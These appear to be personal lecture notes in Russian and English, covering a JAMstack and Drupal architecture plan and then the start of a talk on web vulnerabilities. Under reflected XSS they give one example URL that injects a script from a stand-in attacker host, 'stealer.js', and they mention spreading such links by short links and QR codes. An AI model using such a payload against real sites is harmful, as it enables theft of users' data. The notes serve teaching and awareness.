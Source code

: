 Мы можем ...

Objectives
Уменьшить время выхода на рынок на X%

Уменьшить время на content management на X%

#### Define Constrains

(новые детали)

- Can`t say goodbye to Drupal
- ReactJS and VueJS is used in the company

#### Define Quality Attributes

- Maintainability
- Testability
- Re-usability
- Performance
- Accessibility

#### Design - C4

visit - web site
ingeneer - add themes/components
content - add/edit Content Hub

#### Technology Solution

Template Service -> Nuxt/Next (for static)

db -> github (md)

`We need JAM stack!`

---

## Безопасность: уязвимости вашего приложения

[https://www.youtube.com/watch?v=2gthjl2Lks4&list=PL8sJahqnzh8LOnV0s72DBt0OFBqdv9I9Y&index=3](https://www.youtube.com/watch?v=2gthjl2Lks4&list=PL8sJahqnzh8LOnV0s72DBt0OFBqdv9I9Y&index=3)

### XSS (Cross Site Scripting)

#### Reflected XSS (активный)

Кидают ссылку

`http://forum.by?search`=news<\script%20src="http://hackersite.com/stealer.js

(spam - social networks, short links, qr codes)

Больше социальная инженирия

#### Persistent XSS (пасивный)
